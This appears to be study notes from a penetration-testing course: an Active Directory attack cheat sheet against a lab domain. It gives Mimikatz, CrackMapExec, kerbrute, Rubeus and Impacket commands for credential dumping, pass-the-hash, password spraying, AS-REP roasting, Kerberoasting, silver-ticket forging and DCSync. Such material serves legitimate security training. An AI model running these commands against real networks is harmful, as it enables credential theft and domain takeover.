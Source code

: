 ## Active Directory Attack Cheat Sheet

### **Cached AD Credentials**

**READ MORE FROM PASSWORD ATTACKS MODULE**

Windows has **Single Sign-On (SSO)**, so passwords and tickets are stored in memory (LSASS). These credentials can be in **hashed or plaintext** forms.

- **Requirements:** `SYSTEM` privileges or at least `SeDebugPrivilege`
- **Tool:** Mimikatz
- **Module:** `sekurlsa` (interacts with LSASS)

#### **Mimikatz Commands:**

```powershell
# Engaging privileges
mimikatz # privilege::debug

# Dumping Credentials from Memory
mimikatz # sekurlsa::logonpasswords

# Extracting Kerberos Tickets
sekurlsa::tickets
sekurlsa::tickets /export

# Pass-the-Hash (PTH) Attack
sekurlsa::pth /user:Administrator /domain:corp.com /ntlm:<NTLM-HASH> /run:powershell.exe

# Dumping LSASS from a Process Dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords

# Dumping Cached Credentials
sekurlsa::cache
```

---

### **Finding Lockout Policy of AD**

```powershell
PS C:\Users\jeff> net accounts
```

Sample Output:

```
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                30
```

---

### **Password Attacks in AD**

#### **1️⃣ Password Spraying with LDAP**

- **Windows:** Spray-Passwords.ps1
- **Linux:** `crackmapexec`

```powershell
# Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

# Linux
crackmapexec ldap <DC_IP> -u users.txt -p 'Winter2024'
```

#### **2️⃣ Password Spraying with SMB**

```bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

This can help find **local admin privileges** on a machine.

crackmapexec supports  SMB, LDAP, WINRM, MSSQL, RDP.

#### **3️⃣ Password Spraying with TGT Requests**

**Tools:** `kerbrute`, `kinit`

we used kerbrute because it works on windows and linux.

```bash
# Username Enumeration
kerbrute userenum -d corp.com usernames.txt --dc 192.168.1.10

# Password Spraying
kerbrute passwordspray -d corp.com usernames.txt "P@ssword123" --dc 192.168.1.10

# Multiple Users with Multiple Passwords
kerbrute bruteuser -d corp.com user.txt passwords.txt --dc 192.168.1.10
```

---

### **AS-REP Roasting**

Allows retrieval of AS-REQ without pre-authentication.

**Tool:** `GetNPUsers`

```bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

**Windows Alternative:**

```powershell
Rubeus.exe asreproast /nowrap
```

**Finding AS-REP Roastable Accounts:**

- **PowerView:** `Get-DomainUser -PreauthNotRequired`
- **Impacket:** `impacket-GetNPUsers` (automatically detects vulnerable accounts)

---

### **Kerberoasting**

Stealing **service account** credentials linked to **SPNs**.

Simple process here u will ask DC for a service ticket (DC does not check if u have permission for that service). Then u use this ticket to crack hash of that service account.





- **Windows:** `Rubeus.exe`

```powershell
Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

- **Linux:** `impacket-GetUserSPNs`

```bash
impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

---

### **Silver Ticket Attack**

Allows an attacker to forge a **service ticket (TGS)** with elevated privileges.

When u have requested a  service ticket from DC the DC will provide u with a ticket even if u have no access but the access rights of that service will be low to none. So in this attack we have obtained a hash of service from having local administrator rights or from some other attack. This hash can be used to create another ticket which will look real to the service but with high privileges.

#### **Step 1: Extract NTLM Hash**

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

#### **Step 2: Get DC SID**

````powershell
```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
````

SID = S-1-5-21-1987370270-658905905-1781884369 (remove the RID)

**Step 3: Forge a Silver Ticket**

```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<NTLM-Hash> /user:jeffadmin
```

---

### **Domain Controller Synchronization Attack**

Pretending to another DC. U can ask for object information.

Exploits DC replication rights to extract **NTLM hashes** of all users.

- **Required Privileges:**`Replicating Directory Changes,Replicating Directory Changes All, Replicating Directory Changes in Filtered Set`  rights.


- **Tools:** `mimikatz`, `impacket-secretsdump`

#### **Windows (Mimikatz)**

```powershell
mimikatz # lsadump::dcsync /user:corp\Administrator
```

#### **Linux (Impacket)**

```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"P@ssw0rd!"@192.168.50.70
```

---

## **Summary**

This cheat sheet covers:

- **Credential Dumping** (LSASS, cached credentials, pass-the-hash)
- **Password Attacks** (Spraying with SMB, LDAP, Kerberos TGT requests)
- **Kerberoasting & AS-REP Roasting** (Extracting service account hashes)
- **Silver Ticket Attacks** (Forging service tickets for privilege escalation)
- **Domain Controller Synchronization** (Extracting all user hashes)

This is a structured reference for **Active Directory exploitation** using tools like **Mimikatz, Impacket, CrackMapExec, Rubeus, and Kerbrute**. 🚀

